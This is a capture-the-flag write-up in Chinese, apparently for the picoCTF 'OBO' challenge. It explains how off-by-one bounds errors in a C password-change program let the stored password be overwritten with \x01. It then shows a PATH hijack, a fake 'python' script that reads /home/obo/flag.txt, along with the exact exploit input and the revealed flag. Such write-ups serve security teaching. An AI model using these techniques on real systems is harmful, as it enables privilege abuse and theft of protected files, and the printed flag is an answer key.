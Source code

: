 # OBO
拿到一個更改密碼的程式碼，一眼能看出許多地方有邊界錯誤：
 * 在generate_hex_table 這個程式裡：
```
hex_table[256];
...
for (i = 0; i <= 256; ++i) hex_table[i] = -1;
for (i = 0; i <= 10; ++i) hex_table['0' + i] = i;
for (i = 0; i <= 6; ++i) hex_table['a' + i] = 10 + i;
for (i = 0; i <= 6; ++i) hex_table['A' + i] = 10 + i;
// I don't know why, but I was getting errors, and this fixes it.
hex_table[0] = 0;
```
 * 提示說：如果能找出為何會產生error，和為何加上這行
```
hex_table[0] = 0;
```
  可以讓程式正常運行的原因，就可以破解這關了。
 * 在檢查新輸入的密碼是否夠複雜的程式碼：
```
for (i = 0; i <= strlen(new_password); ++i) {
	int index = hex_table[(unsigned char) new_password[i]];
	if (index == -1) {
	   printf("Invalid character: %c\n", new_password[i]);
	   exit(1);
	}
	digits[index] = 1;
}
```
  可以看到因為邊界錯誤，把不該檢查的結束字元'\0'也做複雜度檢查，這就是為什麼上面要加入
```hex_table[0] = 0;```
  才會正常運行的原因。
 * 同理，也可以看到digits的邊界也超出了一格，這超出的一格會以**int長度為單位**複寫stack上緊鄰的東西，也就是password！
 * 注意到sizeof(int) = 4 byte, 而sizeof(char) = 1 byte，所以password的前四格會被覆寫成[1][0][0][0]，也就是說password變成了：*\x01*！
那麼，接下來只剩下更改password的部份了。但很不幸的，這部份還沒有implement，我們需要找其他方法。
 * 仔細看一下呼叫python的code：
```snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);```
  是用相對路徑開啟，所以說不定我們能複製創一個set_password.py在另一個目錄下，印出flag：
```
#!/bin/sh
cat /home/obo/flag.txt
```
  我放到自己的目錄底下/home_users/pico62895，但很可惜，obo在這裡不能開啟password所以失敗，早該預料到的。
 * 那麼剩下調整環境變數，創一個叫作python的script檔，在export到PATH中：
```
pico62895@shell:~$ vim python
#!/bin/sh
cat /home/obo/flag.txt
pico62895@shell:~$ chmod +x python 
pico62895@shell:~$ export PATH=/home_users/pico62895:$PATH
#!/bin/sh
cat /home/obo/flag.txt
```
 * 然後再執行程式：
```
pico62895@shell:~$ (echo -e "123456789abcdefg\n\x01") | /home/obo/obo
New password: Confirm old password: watch_your_bounds
Password changed!
```
 * 成功取得 flag = watch_your_bounds。
